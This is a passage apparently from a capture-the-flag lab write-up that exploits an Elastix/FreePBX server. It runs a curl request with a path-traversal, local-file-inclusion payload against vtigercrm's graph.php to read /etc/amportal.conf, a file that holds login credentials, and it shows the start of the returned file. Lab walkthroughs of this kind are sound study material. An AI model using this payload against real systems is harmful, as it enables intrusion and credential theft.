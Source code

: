 ![ExploitDB page](./images/exploitdb.png)

Apparently, visiting the URL `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` would leak the credentials for the Elastix login page. Since we've not been able to identify a version, let's try it out to see if our server is vulnerable:

```
$ curl -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"

# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
```